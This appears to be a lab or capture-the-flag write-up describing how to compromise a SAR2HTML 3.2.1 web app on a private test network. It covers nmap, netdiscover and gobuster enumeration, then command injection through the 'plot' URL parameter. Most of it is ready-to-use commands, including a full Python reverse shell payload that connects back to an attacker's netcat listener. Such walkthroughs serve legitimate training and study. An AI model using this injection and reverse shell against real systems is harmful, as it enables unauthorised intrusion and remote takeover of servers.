 ## 📌 Objective

Gain remote shell access to a vulnerable SAR2HTML web app and document the attack steps using enumeration, exploitation, and reverse shell techniques.

---

## 🔍 Step 1: Network Discovery

### 🔹 Discover Target IP

```bash
netdiscover -r 10.0.2.0/24

```

- Found target machine at: `10.0.2.6`

---

## 🔎 Step 2: Port Scanning

### 🔹 Run Nmap for Open Ports & Service Detection

```bash
nmap -A 10.0.2.6

```

- Found **port 80 (HTTP)** open.

---

## 🌐 Step 3: Web Enumeration

### 🔹 Use Gobuster to Find Hidden Directories

```bash
gobuster dir -u http://10.0.2.6 -w /usr/share/wordlists/dirb/common.txt

```

- Found: `/robots.txt`

### 🔹 Check robots.txt

```
http://10.0.2.6/robots.txt

```

- Discovered link to: `/sar2HTML/`

---

## 📁 Step 4: SAR2HTML Enumeration

### Access:

```
http://10.0.2.6/sar2HTML/

```

### Observations:

- SAR2HTML version **3.2.1**
- Web interface to upload SAR system reports
- Known to be vulnerable to **RCE via `plot` parameter**

---

## 🧪 Step 5: Confirm Remote Code Execution

### Test with Basic Command Injection:

```
http://10.0.2.6/sar2HTML/index.php?plot=;whoami

```

### ✅ Result:

- Returns `www-data` or similar → confirms RCE is working.

---

## 🛠️ Step 6: Gain Reverse Shell Access

### Start Netcat Listener on Attacker (Kali) Machine:

```bash
nc -lvnp 4444

```

### Use Python Reverse Shell Payload:

```
http://10.0.2.6/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.0.2.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

> Replace 10.0.2.5 with your Kali IP.
> 

### ✅ If successful:

- Netcat listener shows:
    
    ```
    Connection received on 10.0.2.6
    
    ```
    
- You get a working remote shell.

---

## 💡 Summary of Exploitation Commands

| URL | Purpose |
| --- | --- |
| `http://10.0.2.6/sar2HTML/index.php?plot=;whoami` | Confirms RCE is possible |
| `http://10.0.2.6/sar2HTML/index.php?plot=;python3 -c '...'` | Opens a reverse shell to attacker's listener |

---

## 🧠 Key Concepts Used

- **RCE (Remote Code Execution)** via URL parameter injection
- **Reverse Shell** using Python
- **Netcat listener** for catching the shell
- **Enumeration** with Gobuster and Nmap
